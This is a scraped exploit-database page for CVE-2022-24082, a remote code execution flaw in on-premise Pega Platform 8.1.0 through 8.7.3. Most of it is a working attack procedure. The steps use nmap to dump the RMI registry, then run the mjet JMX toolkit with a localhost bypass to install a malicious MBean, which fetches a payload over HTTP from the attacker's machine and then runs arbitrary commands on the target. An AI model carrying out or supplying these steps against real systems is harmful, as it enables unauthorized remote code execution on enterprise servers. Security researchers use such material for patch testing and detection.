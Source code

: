 ```yaml
---
title: Pega Platform 8.7.3 Remote Code Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:169480&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-10-25
fetch_date: 2025-10-03T20:44:33.706224
---
```


# Pega Platform 8.7.3 Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Pega Platform 8.7.3 Remote Code Execution CVE-2022-24082

2022-10-24 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:169480
# Exploit Title: Pega Platform 8.1.0 (and higher) Remote Code Execution
# Google Dork: N/A
# Date: 20 Oct 2022
# Exploit Author: Marcin Wolak (using MOGWAI LABS JMX Exploitation Toolkit)
# Vendor Homepage: www.pega.com
# Software Link: Not Available
# Version: 8.1.0 on-premise and higher, up to 8.7.3
# Tested on: Red Hat Enterprise 7
# CVE : CVE-2022-24082

;Dumping RMI registry:
nmap -sT -sV --script rmi-dumpregistry -p 9999 <IP Address>

;Extracting dynamic TCP port number from the dump (in form of @127.0.0.1:<PORT>)
;Verifying that the <PORT> is indeed open (it gives 127.0.0.1 in the RMI dump, but actually listens on the network as well):
nmap -sT -sV -p <PORT> <IP Address>

;Exploitation requires:
;- JVM
;- MOGWAI LABS JMX Exploitation Toolkit (https://github.com/mogwailabs/mjet)
;- jython
;Installing mbean for remote code execution
java -jar jython-standalone-2.7.2.jar mjet.py --localhost_bypass <PORT> <IP Address> 9999 install random_password http://<Local IP to Serve Payload over HTTP>:6666 6666

;Execution of commands id & ifconfig
java -jar jython-standalone-2.7.2.jar mjet.py --localhost_bypass <PORT> <IP Address> 9999 command random_password "id;ifconfig"

;More details: https://medium.com/@Marcin-Wolak/cve-2022-24082-rce-in-the-pega-platform-discovery-remediation-technical-details-long-live-69efb5437316
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)